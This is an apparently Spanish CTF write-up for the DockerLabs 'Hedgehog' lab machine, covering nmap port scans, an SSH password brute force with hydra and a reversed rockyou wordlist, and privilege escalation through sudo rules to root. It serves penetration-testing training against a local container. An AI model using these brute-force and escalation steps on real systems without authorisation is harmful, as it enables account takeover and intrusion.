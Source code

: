 #MAQUINA #DOCKERLABS #MUY_FACIL 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Hedgegog** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 13:21 CET
Initiating ARP Ping Scan at 13:21
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:21, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:21
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:21, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-23 13:21:10 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 13:21 CET
Nmap scan report for 172.17.0.2
Host is up (0.000018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 34:0d:04:25:20:b6:e5:fc:c9:0d:cb:c9:6c:ef:bb:a0 (ECDSA)
|_  256 05:56:e3:50:e8:f4:35:96:fe:6b:94:c9:da:e9:47:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Site doesnt have a title (text/html).
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.31 seconds




```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 13:22 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que hay un mensaje:

   ```bash
Tails
```
Vemos que hay posible usuario ->**tails**

# EXPLOTACION

Tras un buen rato y ver el writeup de la creadora, veo que usa un rockyou invertido de la siguiente manera:

   ```bash
tac /usr/share/wordlists/rockyou.txt > rockinvert.txt
sed -i 's/ //g' rockinvert.tx

```

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l tails -P ./rockinvert.txt ssh://172.17.0.2 -t 64

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-23 14:00:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344386 login tries (l:1/p:14344386), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-23 14:00:14

```
**usuario : tails**
**contraseña: 3117548331**
# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
tails@e745be33a159:~$ sudo -l
User tails may run the following commands on e745be33a159:
    (sonic) NOPASSWD: ALL


```

Vemos **bash** con permisos SUDO con usuario sonic :
   ```bash
tails@e745be33a159:~$ sudo -u sonic bash
sonic@e745be33a159:/home/tails$ 
```

YA ESTAMOS COMO SONIC.

Vemos si el usuario tiene permisos SUDO:
   ```bash
sonic@e745be33a159:/home/tails$ sudo -l
User sonic may run the following commands on e745be33a159:
    (ALL) NOPASSWD: ALL

```

Vemos cualquier comando con permisos SUDO :
   ```bash
sonic@e745be33a159:/home/tails$ sudo bash -p
root@e745be33a159:/home/tails# whoami
root
root@e745be33a159:/home/tails# 
```

**YA ESTAMOS COMO ROOT.**